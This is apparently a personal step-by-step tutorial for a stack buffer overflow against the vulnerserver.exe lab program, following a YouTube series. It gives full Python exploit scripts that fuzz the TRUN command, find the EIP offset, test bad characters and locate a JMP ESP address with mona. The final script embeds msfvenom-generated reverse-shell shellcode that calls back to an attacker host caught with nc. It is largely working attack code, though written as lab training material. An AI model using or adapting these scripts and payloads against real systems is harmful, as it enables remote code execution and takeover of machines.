







A Buffer overflow attack is a memory corruption attack in which we try to overflow the buffer in such a way that we end it up rewriting the EBP(extended base pointer) and the EIP (extended istruction pointer) registry.

## Steps to conduct to a buffer overflow
1) **Fuzzing**: the objective here is to make the program crash.
2) **Finding the offset**: here we try to find the exactly point in which the program will crash.
3) **Overwrite the EIP**: in this step we will use the offset finding before to overwrite the eip and obtain his control.
4) **Finding bad characters**: We need to remove the bad characthers because if a bad character is read in memory, everything found after the fact will get cut off and effectively not run. they can break our shell :) 
5) **Finding the right module**: here we try to identy a JMP call that we can leverage to jump to our shellcode
6) **Generate shell code & root**

### Small demo (based on https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)

In this small example we will try to exploit a web server(vulnserver.exe) running on port 9999

### 1 Fuzzing
we already know that the command TRUN is vulnerable so we made this small script that will make the program crash
```
#!/usr/bin/python 

import socket,sys
from time import sleep

buffer = "A" * 100

while True:
    try:
        print ("start fuzzing")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
        s.connect(('192.168.215.135',9999))

        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    
    except:
        print "fuzzing crashed at %s bytes" %str(len(buffer))
        sys.exit()

```
After runnning the script we will see that Immunity debugger will automatically pause itself that is the sign that the program has crashed. 


Fine now we move to the next step where we have to find the exact offset by using a payload that is bigger than 2100 bytes.

### 2 Find the value to control the EIP registry

Use this commands to generate payload that we can use to calcolate the offset

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Then we modify the script in this way and we run it again

```
#!/usr/bin/python 

import socket,sys
from time import sleep

offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D"
try:
    print("exploiting!")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('192.168.215.135',9999))
    s.send(('TRUN /.:/' + offset))
    s.close()
except:
    print "error connecting to the server"
    sys.exit()

```

After run the script the program will crash, here we need to see the value that is inside the **EIP** registry (see image below)



Find the exact offset using the value that we have found in the EIP registry
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2500 -q 386F4337
```


## 3) Control the EIP registry

 We can use this script and use a shell code of 2003 bytes and 4B. in the EIP registry we should see 424242 (that is the hex code for BBBB)
 
```
#!/usr/bin/python 

import socket,sys
from time import sleep

shellcode = "A" * 2003 + "B" * 4 
try:
    print("exploiting!")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('192.168.215.135',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print "error connecting to the server"
    sys.exit()
```


## 4) Finding the Bad Characters

Now that we can control the EIP registry we need to remove the bad characthers because if a bad character is read in memory, everything found after the fact will get cut off and effectively not run.


this is the list of all bad characters

**note \x00 is always a bad character**
```
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
#!/usr/bin/python 

import socket,sys
from time import sleep
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars 
try:
    print("exploiting!")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('192.168.215.135',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print "error connecting to the server"
    sys.exit()
```
after that we run the program and we click follow the dump on the esp registry


as we can see from 01 to ff nothing is out of place


this is an exampple containing bad characters



## 5) Finding the right module

first we search for a dll that is atttached to our process that we can use for the jump. we can use mona for this

```
!mona modules
```


Here we are looking for all false and attached to our vulnerable exe file. As we can see the **essfunc.dll** is exactly what we need.

then we run this command to find the jump address

```
!mona find -s "\xff\xe4" -m essfunc.dll
```
the address is **625011AF** now we check if is really a jump.



after press enter we should find FFE4 that is a jump call


Extra: in case we want to test we can set a breakpoint (address will become light blue) and run the following script

```
#!/usr/bin/python 

import socket,sys
from time import sleep

//CHANGE TO LITTLE INDIAN NOTATION (al contrario) 
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" 
try:
    print("exploiting!")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('192.168.215.135',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print "error connecting to the server"
    sys.exit()
```
we should see the following error message


## 6) Generating the shellcode

we can generate the shellcode using msfvenom
```
//remember to remove the bad characters 
msfvenom -p windows/shell_reverse_tcp lhost=192.168.215.134 port=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
the final exploit is :
**shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow**

- xaf\x11\x50\x62 = address where we jump (ALLINCONTRARIO!!!)
- "\x90" * 32  = NOP
- overflow = our shellcode

```
#!/usr/bin/python 

import socket,sys
from time import sleep

overflow = (
"\xbe\x22\xe7\xea\x53\xdb\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x83\xea\xfc\x31\x72\x0e\x03\x50\xe9\x08\xa6\x68\x1d\x4e"
"\x49\x90\xde\x2f\xc3\x75\xef\x6f\xb7\xfe\x40\x40\xb3\x52\x6d"
"\x2b\x91\x46\xe6\x59\x3e\x69\x4f\xd7\x18\x44\x50\x44\x58\xc7"
"\xd2\x97\x8d\x27\xea\x57\xc0\x26\x2b\x85\x29\x7a\xe4\xc1\x9c"
"\x6a\x81\x9c\x1c\x01\xd9\x31\x25\xf6\xaa\x30\x04\xa9\xa1\x6a"
"\x86\x48\x65\x07\x8f\x52\x6a\x22\x59\xe9\x58\xd8\x58\x3b\x91"
"\x21\xf6\x02\x1d\xd0\x06\x43\x9a\x0b\x7d\xbd\xd8\xb6\x86\x7a"
"\xa2\x6c\x02\x98\x04\xe6\xb4\x44\xb4\x2b\x22\x0f\xba\x80\x20"
"\x57\xdf\x17\xe4\xec\xdb\x9c\x0b\x22\x6a\xe6\x2f\xe6\x36\xbc"
"\x4e\xbf\x92\x13\x6e\xdf\x7c\xcb\xca\x94\x91\x18\x67\xf7\xfd"
"\xed\x4a\x07\xfe\x79\xdc\x74\xcc\x26\x76\x12\x7c\xae\x50\xe5"
"\x83\x85\x25\x79\x7a\x26\x56\x50\xb9\x72\x06\xca\x68\xfb\xcd"
"\x0a\x94\x2e\x41\x5a\x3a\x81\x22\x0a\xfa\x71\xcb\x40\xf5\xae"
"\xeb\x6b\xdf\xc6\x86\x96\x88\x28\xfe\x4f\xce\xc1\xfd\x6f\xde"
"\x4d\x8b\x89\x8a\x7d\xdd\x02\x23\xe7\x44\xd8\xd2\xe8\x52\xa5"
"\xd5\x63\x51\x5a\x9b\x83\x1c\x48\x4c\x64\x6b\x32\xdb\x7b\x41"
"\x5a\x87\xee\x0e\x9a\xce\x12\x99\xcd\x87\xe5\xd0\x9b\x35\x5f"
"\x4b\xb9\xc7\x39\xb4\x79\x1c\xfa\x3b\x80\xd1\x46\x18\x92\x2f"
"\x46\x24\xc6\xff\x11\xf2\xb0\xb9\xcb\xb4\x6a\x10\xa7\x1e\xfa"
"\xe5\x8b\xa0\x7c\xea\xc1\x56\x60\x5b\xbc\x2e\x9f\x54\x28\xa7"
"\xd8\x88\xc8\x48\x33\x09\xe8\xaa\x91\x64\x81\x72\x70\xc5\xcc"
"\x84\xaf\x0a\xe9\x06\x45\xf3\x0e\x16\x2c\xf6\x4b\x90\xdd\x8a"
"\xc4\x75\xe1\x39\xe4\x5f")
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow 
try:
    print("exploiting!")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('192.168.215.135',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print "error connecting to the server"
    sys.exit()
```

on attacker machine

```
nc -lvp 4444
```


done :) 
